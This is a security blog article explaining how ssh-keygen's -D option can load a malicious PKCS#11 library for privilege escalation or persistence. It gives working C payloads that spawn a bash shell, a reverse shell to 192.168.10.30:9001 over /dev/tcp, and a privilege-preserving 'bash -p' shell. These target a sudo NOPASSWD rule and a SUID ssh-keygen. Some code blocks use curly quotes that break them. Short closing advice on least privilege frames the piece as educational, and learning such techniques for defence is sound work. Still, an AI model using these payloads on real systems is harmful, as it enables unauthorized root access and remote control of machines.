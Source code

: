 ```yaml
---
title: "Abusing ssh-keygen"
summary: “SSH-Keygen is a tool that allows you to create and manage SSH keys, this tool is present in most UNIX systems today as a tool to facilitate the management of SSH keys.”
date: 2024-07-24
tag: FTP
---
```


# Abusing ssh-keygen

SSH-Keygen is a tool that allows you to create and manage SSH keys, this tool is present in most UNIX systems today as a tool to facilitate the management of SSH keys.

In this article we will explore some methods to abuse this tool with certain configurations as a method of persistence or privilege escalation on the system.

<!-- more -->

In particular, we will abuse a specific functionality of this binary that allows the loading of public keys from a card reader library, this option is the **-D** parameter, its use is as follows: 

```bash
ssh-keygen -D ./lib.so
```

## How to generate the payload

Now that we've explained how to use this function, let's look in more detail at how to generate a loadable payload, for which we'll first need to obtain a version of pkcs11.h . This header file is where we define the data types needed for the function of our library that will call ssh-keygen when using the **-D** parameter. 

In our case, we will go to the Open Smart Card repository and download the version we need from the following URL

[Github Code](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h) 

With this file we will proceed to write a small program in C with the necessary structure to be executed by ssh-keygen, in our case this program will spawn a bash shell.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Once compiled we can load it as a library as indicated in the introduction. 

## Profit

### Case 1: Sudo SSH-Keygen

Let's take advantage of a scenario where our user has permissions to execute the ssh-keygen command as root.

```bash
Matching Defaults entries for pnavas on test:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/snap/bin,
    use_pty

User pnavas may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /usr/bin/ssh-keygen
```

In this case, instead of using a simple bash call, we will load a reverse shell.

```c
#include ‘pkcs11.h’
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = ‘/bin/bash’;
        char *args[] = {cmd, ‘-c’ , ‘bash -i >& /dev/tcp/192.168.10.30/9001 0>&1’, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror(‘fork’);
        return 1;
    }

    return CKR_OK;
}
```

As a result, when we load it, we will get a root connection in our listener, we could modify it to run a shell simply as in the example in the theory section 

### Case 2: SSH Keygen SUID

In this scenario we are going to exploit a slightly less common scenario where ssh-keygen has the SUID bit set, in this case to keep the SUID privileges we need to change the library code a bit so that the shell keeps the privileges

```c
#include ‘pkcs11.h’
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = ‘/bin/bash’;
        char *args[] = {cmd, ‘-p’, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror(‘fork’);
        return 1;
    }

    return CKR_OK;
}
```

Once compiled, we can run the command to load the library and get a shell with the necessary privileges.

## Final Thoughts

As demonstrated, ssh-keygen is a powerful tool that, when misconfigured or misused, can become a significant security risk. The scenarios presented in this article highlight the importance of properly configuring and restricting access to binaries with elevated privileges.

By understanding and proactively managing the capabilities and risks associated with common tools like ssh-keygen, administrators can ensure the integrity and security of their systems. 

!!! note
    Always adopt the principle of least privilege and conduct regular security audits to minimize attack surfaces.
